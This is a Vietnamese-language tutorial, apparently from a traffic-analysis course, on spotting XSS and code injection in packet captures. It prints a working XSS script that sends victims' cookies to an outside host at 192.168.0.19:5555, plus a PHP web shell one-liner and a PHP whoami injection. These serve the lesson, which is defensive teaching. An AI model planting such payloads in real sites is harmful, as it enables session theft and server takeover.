


# Cross-Site Scripting (XSS) & Code Injection Detection (Phát hiện Cross-Site Scripting (XSS) và Code Injection)

**File PCAP liên quan**:
* `XSS_Simple.pcapng`

---

Giả sử ta đang xem qua các HTTP request và nhận thấy có khá nhiều request được gửi tới một "server" nội bộ mà ta không nhận ra. Đây có thể là dấu hiệu rõ ràng của cross-site scripting. Hãy xem output sau làm ví dụ.



Ta có thể thấy rất nhiều giá trị được gửi đi, và trong các trường hợp thực tế, việc đây là cookie/token của người dùng có thể không rõ ràng như vậy. Thay vào đó, dữ liệu thậm chí có thể được encode hoặc mã hoá trong khi truyền. Về bản chất, cross-site scripting hoạt động bằng cách kẻ tấn công chèn javascript độc hại hoặc script code vào một trong các trang web của ta thông qua dữ liệu người dùng nhập vào. Khi những người dùng khác truy cập web server của ta, trình duyệt của họ sẽ thực thi đoạn code này. Trong nhiều trường hợp, kẻ tấn công dùng kỹ thuật này để đánh cắp token, cookie, giá trị session và nhiều thứ khác. Nếu ta follow một trong các request này, nó sẽ trông như sau.



Truy tìm tận gốc nơi đoạn code này xuất phát có thể hơi khó. Tuy nhiên, giả sử web server của ta có một khu vực bình luận của người dùng. Ta có thể thấy một trong các bình luận trông như sau.

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```

Đây sẽ là một vụ cross-site scripting thành công của kẻ tấn công, và vì thế ta sẽ muốn xoá bình luận này thật nhanh, thậm chí trong hầu hết trường hợp còn phải tạm dừng server để khắc phục sự cố trước khi nó kéo dài. Trong một số trường hợp, ta cũng có thể thấy kẻ tấn công cố chèn code vào các field này như hai ví dụ sau.

Để giành command and control thông qua PHP.

```php
<?php system($_GET['cmd']); ?>
```

Hoặc để thực thi một lệnh đơn lẻ bằng PHP:

```php
<?php echo `whoami` ?>
```

#### Ngăn chặn XSS và Code Injection

Để ngăn chặn các mối đe doạ này sau khi đã phát hiện ra chúng, ta có thể làm như sau.

1. `Sanitize and handle user input in an acceptable manner.` (Làm sạch (sanitize) và xử lý dữ liệu người dùng nhập vào theo cách phù hợp.)

2. `Do not interpret user input as code.` (Không diễn giải dữ liệu người dùng nhập vào như code.)
